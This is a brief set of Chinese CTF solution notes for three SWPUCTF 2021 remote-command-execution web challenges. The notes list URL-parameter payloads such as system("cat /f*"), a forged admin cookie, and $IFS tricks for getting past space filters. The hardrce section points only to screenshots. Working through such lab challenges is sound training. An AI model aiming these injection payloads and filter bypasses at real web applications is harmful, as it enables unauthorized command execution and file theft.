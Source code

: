 ##### [SWPUCTF 2021 新生赛]easyrce

[NSS](https://www.ctfer.vip/problem/424)

- `?url=system("ls /");`

- `?url=system("cat /f*");`

##### [SWPUCTF 2021 新生赛]babyrce

[NSS](https://www.ctfer.vip/problem/425)

- 抓包，添加 `Cookie: admin=1` 。
- `?url=ls$IFS""/`
- `?url=cat$IFS""/f*`

##### [SWPUCTF 2021 新生赛]hardrce

[NSS](https://www.ctfer.vip/problem/439)

###### 题解

- 使用脚本构造 payload ：

  ![](picture/1.png)

  得到：

  ![](picture/2.png)

- 继续构造 payload ：

  ![](picture/3.png)
